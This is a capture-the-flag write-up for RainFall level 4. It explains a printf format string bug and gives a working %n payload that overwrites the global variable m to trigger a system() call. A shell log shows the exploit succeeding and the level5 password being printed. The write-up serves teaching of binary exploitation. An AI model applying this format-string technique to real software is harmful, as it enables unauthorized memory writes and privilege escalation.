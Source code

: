 
### 1.
- **`n()` function** calls `fgets()` to read input, which is safe from buffer overflows.
- **`p()` function** is where the format string vulnerability exists. It calls `printf()`, and this is where the vulnerability can be exploited.
- The program has a global variable `m` at the address `0x8049810`. The value of `m` is compared to `0x1025544`. If they match, a shell is spawned via `system()`.

``` bash
(gdb) info variables m
All variables matching regular expression "m":

Non-debugging symbols:
0x08049808  completed.6159
0x08049810  m
```

### 2. **Objective**
The goal is to manipulate the `printf()` function to change the value of the global variable `m` at `0x8049810` so that the comparison in the code succeeds (`m == 0x1025544`), which will trigger the `system()` call and allow us to execute arbitrary code (i.e., read the password file).

### 3. **Understanding Format String Vulnerability**
- `printf()` is vulnerable to format string exploits. By controlling the format string, you can print memory values and modify values in memory using format specifiers like `%n`.
- `%x` prints the value at the memory address in hexadecimal.
- `%d` allows specifying a width for the printed value, and `%n` writes the number of characters printed so far into a variable (this is what we use to change `m`).

### 4. **Exploitation Process**
Here’s how you can manipulate the format string to change `m`:

1. **Leaking Memory with `%x`**:
   - First, we print memory values using the format string `"%x"`, which reveals the stack values. The goal is to find the address of the global variable `m` and modify it.
   - use Python to craft the exploit:
     ```bash
     python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit4
     cat /tmp/exploit4 | ./level4
     ```
     This will print memory addresses, and you look for the value of `m` by scanning the output.

2. **Adjusting the Format String**:
   - Once we find the address of `m`, we need to overwrite it with the value `0x1025544`. To do this, you need to control the output of `printf()` to write that value to the address of `m`.
   - Since the comparison checks if `m == 0x1025544`, we need to format the string in a way that makes `printf()` write the correct value.
   - First, we calculate the difference between `0x1025544` and the current value of `m` in the memory dump.
   - The format string you use is like this:
     ```python
     python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit4

     ```

3. **The Exploit Breakdown**:
   - `"\x10\x98\x04\x08"` is the address of the global variable `m` (in little-endian format).
   - `%16930112d` causes `printf()` to print a large number of characters to reach the required value for `m` (16930112 minus 4 bytes for `m`).
   - `%12$n` writes the number of characters printed so far (the value we calculated) into the address of `m` (at position 12 in the stack, corresponding to the address we passed earlier).

4. **Triggering the Shell**:
   - When the format string successfully writes the value `0x1025544` to `m`, the comparison `m == 0x1025544` is true, and the program calls `system()`.
   - This will execute the command `system("/bin/cat /home/user/level5/.pass")`, which reads the password for level 5.

5. **Final Steps**:
   - After successfully exploiting the format string vulnerability, you switch to the `level5` user by running `su level5`, and use the password obtained from the file `/home/user/level5/.pass` to log in.

``` bash 
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
                                                                                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ su level5
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
level5@RainFall:~$

``` 
